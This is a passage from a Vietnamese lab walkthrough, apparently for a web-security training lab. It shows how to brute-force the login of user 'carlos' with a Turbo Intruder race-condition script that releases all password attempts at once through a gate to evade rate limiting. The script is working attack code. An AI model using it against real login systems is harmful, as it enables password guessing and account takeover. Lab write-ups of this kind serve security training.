   ![image-20250817114430281](./image/image-20250817114430281.png)

3. **Chuẩn bị tấn công bằng Turbo Intruder**

- Lấy request đăng nhập (POST /login) trong Proxy → gửi sang Turbo Intruder.
- Sửa `username=carlos`.
- Đặt `%s` vào chỗ giá trị của `password`.

Script Turbo Intruder (dùng template `race-single-packet-attack.py`):

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # lấy danh sách mật khẩu từ clipboard
    passwords = wordlists.clipboard

    # xếp request đăng nhập cho từng mật khẩu
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # mở "cổng" để bắn tất cả request cùng lúc
    engine.openGate('1')


def handleResponse(req, interesting):
    if req.status == 302:  # login thành công sẽ redirect
        table.add(req)
```

